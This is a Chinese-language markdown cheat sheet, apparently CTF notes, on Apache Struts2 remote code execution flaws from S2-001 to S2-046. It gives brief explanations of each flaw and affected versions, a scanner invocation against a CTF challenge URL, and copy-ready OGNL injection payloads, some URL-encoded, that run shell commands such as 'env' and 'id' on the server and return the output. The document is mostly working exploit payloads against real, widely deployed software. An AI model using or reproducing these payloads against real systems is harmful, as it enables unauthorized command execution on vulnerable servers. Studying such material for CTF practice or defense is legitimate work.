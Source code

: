 # JAVA漏洞

<br>


### Struts2漏洞脚本

- [Struts2Scan](https://github.com/Vancomycin-g/Struts2Scan)

<br>

例子：使用S2-009漏洞获取shell

-u url

-n 漏洞名称

-e 命令行

````
python3 Struts2Scan.py -u http://b03293c4-fdd9-4c93-8861-d521da0383bf.challenge.ctf.show/S2-009/showcase.action -n S2-008 -e

````

<br>

### S2-001


playload ：

````

%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"env"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}

````

<br>

原理:

<br>

这是一段针对 Struts2 框架的远程代码执行（RCE）攻击代码。该攻击利用了 Struts2 过滤器没有正确处理 OGNL 表达式中 #{} 情况的漏洞，导致攻击者可以在 HTTP 请求中注入任意代码，从而执行任意命令。
具体来说，这段代码会创建一个新的进程，并执行 "env" 命令，将结果输出到 InputStream 中。然后通过 BufferedReader 和 char 数组等方式读取 InputStream 中的内容，并将结果输出到 HttpServletResponse 中，最终返回给攻击者。

<br>

### S2-005


原理:

<br>

对于S2-003，Struts2将HTTP的每个参数名解析为ognl语句执行,而ognl表达式是通过#来访问struts的对象，Struts2框架虽然过滤了#来进行过滤，但是可以通过unicode编码（u0023）或8进制（43）绕过了安全限制，达到代码执行的效果
再看S2-005
S2-005和S2-003的原理是类似的，因为官方在修补S2-003不全面，导致用户可以绕过官方的安全配置（禁止静态方法调用和类方法执行），再次造成的漏洞，可以说是升级版的S2-005是升级版的S2-003


<br>


## S2-007 S2-008 S2-009用脚本通杀就完了

<br>

### S2-012


原理:

<br>

如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 ${param_name} 作为重定向变量，例如：

<package name="S2-012" extends="struts-default"> <action name="user" class="com.demo.action.UserAction"> <result name="redirect" type="redirect">/index.jsp?name=${name}</result> <result name="input">/index.jsp</result> <result name="success">/index.jsp</result> </action> </package>

这里 UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行

影响版本: 2.1.0 - 2.3.13

https://blog.51cto.com/u_15878568/5955193

<br>

playload ：

````
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"env"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}

````

<br>

## S2-013 S2-015 S2-016用脚本通杀就完了

<br>

## S2-015

原理:

<br>

漏洞产生于配置了 Action 通配符 *，并将其作为动态值时，解析时会将其内容执行 OGNL 表达式，例如：
````
<package name="S2-015" extends="struts-default"> <action name="*" class="com.demo.action.PageAction"> <result>/{1}.jsp</result> </action> </package>
````
上述配置能让我们访问 name.action 时使用 name.jsp 来渲染页面，但是在提取 name 并解析时，对其执行了 OGNL 表达式解析，所以导致命令执行。在实践复现的时候发现，由于 name 值的位置比较特殊，一些特殊的字符如 / " \ 都无法使用（转义也不行），所以在利用该点进行远程命令执行时一些带有路径的命令可能无法执行成功

还有需要说明的就是在 Struts 2.3.14.1 - Struts 2.3.14.2 的更新内容中，删除了 SecurityMemberAccess 类中的 setAllowStaticMethodAccess 方法，因此在 2.3.14.2 版本以后都不能直接通过 ​​#_memberAccess['allowStaticMethodAccess']=true​​ 来修改其值达到重获静态方法调用的能力

https://blog.51cto.com/u_15878568/5955193


url编码发送:

````
%24%7b%23%63%6f%6e%74%65%78%74%5b%27%78%77%6f%72%6b%2e%4d%65%74%68%6f%64%41%63%63%65%73%73%6f%72%2e%64%65%6e%79%4d%65%74%68%6f%64%45%78%65%63%75%74%69%6f%6e%27%5d%3d%66%61%6c%73%65%2c%23%6d%3d%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2e%67%65%74%43%6c%61%73%73%28%29%2e%67%65%74%44%65%63%6c%61%72%65%64%46%69%65%6c%64%28%27%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%27%29%2c%23%6d%2e%73%65%74%41%63%63%65%73%73%69%62%6c%65%28%74%72%75%65%29%2c%23%6d%2e%73%65%74%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2c%74%72%75%65%29%2c%23%71%3d%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%69%64%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%2c%23%71%7d%2e%61%63%74%69%6f%6e
````


## S2-019

<br>

原理：
动态方法调用是一种已知会施加可能的安全漏洞的机制，但到目前为止，它默认启用，警告用户应尽可能将其关闭。这样就存在远程代码执行漏洞，远程攻击者可利用此漏洞在受影响应用上下文中执行任意代码

<br>

playload:(放在url后面)

<br>

````
/HelloWorld.action?debug=command&expression=%23a%3D%28new%20java.lang.ProcessBuilder%28%27env%27%29%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew%20java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew%20java.io.BufferedReader%28%23c%29%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read%28%23e%29%2C%23out%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23out.getWriter%28%29.println%28new%20java.lang.String%28%23e%29%29%2C%23out.getWriter%28%29.flush%28%29%2C%23out.getWriter%28%29.close%28%29%0A                                                                                                                                                                      
````

## S2-032

playload:(放在url后面)

原理:

Struts框架被强制执行时，对分配给某些标签的属性值进行双重评估，因此可以传入一个值，当一个标签的属性将被渲染时，该值将被再次评估
例如：代码执行过程大致为先尝试获取value的值，如果value为空，那么就二次解释执行了name。并且在执行前给name加上了”%{}”。最终造成二次执行
影响版本：Struts 2.0.0 - Struts 2.3.24.1（2.3.20.3除外）


<br>

````
default.action?message=(%23_memberAccess['allowPrivateAccess']=true,%23_memberAccess['allowProtectedAccess']=true,%23_memberAccess['excludedPackageNamePatterns']=%23_memberAccess['acceptProperties'],%23_memberAccess['excludedClasses']=%23_memberAccess['acceptProperties'],%23_memberAccess['allowPackageProtectedAccess']=true,%23_memberAccess['allowStaticMethodAccess']=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('env').getInputStream()))

````

<br>

## S2-046 不会
## S2-045 脚本通杀